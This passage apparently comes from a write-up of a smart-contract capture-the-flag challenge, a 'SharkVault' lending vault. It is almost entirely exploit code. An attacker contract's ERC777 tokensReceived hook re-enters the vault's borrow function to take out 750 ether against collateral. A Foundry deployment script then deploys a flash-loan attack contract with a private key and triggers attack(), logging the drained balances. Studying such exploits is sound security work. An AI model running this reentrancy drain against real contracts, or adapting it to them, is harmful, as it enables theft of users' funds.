 ```solidity
      return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function tokensReceived(
      address,
      address,
      address,
      uint256 ,
      bytes calldata,
      bytes calldata
    ) external {
      uint amount = seagold.balanceOf(address(vault));
			// classic recursion pattern to prevent infinte loop
      if (amount == 0) {
        return;
      }
			// since there is 1000 ether of collateral 750 is the max amount we can borrow
      vault.borrow(750 ether);
    }

}
```


And here is the deployment script:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


import {SharkVault, IERC20, FlashLoan} from "../src/Attack.sol";

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address INSTANCE = vm.envAddress("INSTANCE");
        address FLASH_LENDER = vm.envAddress("FLASH_LENDER");
        address REGISTRY = vm.envAddress("ERC1820REGISTRY");

        vm.startBroadcast(deployerPrivateKey);

        SharkVault vault = SharkVault(INSTANCE);

        IERC20 gold = IERC20(vault.gold());
        IERC20 seagold = IERC20(vault.seagold());

        FlashLoan flashLoan = new FlashLoan(FLASH_LENDER, address(gold), address(seagold), address(vault), REGISTRY);

        console.logAddress(address(gold));
        console.logAddress(address(seagold));
        console.logUint(gold.balanceOf(address(vault)));
        console.logUint(seagold.balanceOf(address(vault)));

        flashLoan.attack();

        console.logUint(seagold.balanceOf(address(vault)));

        vm.stopBroadcast();
```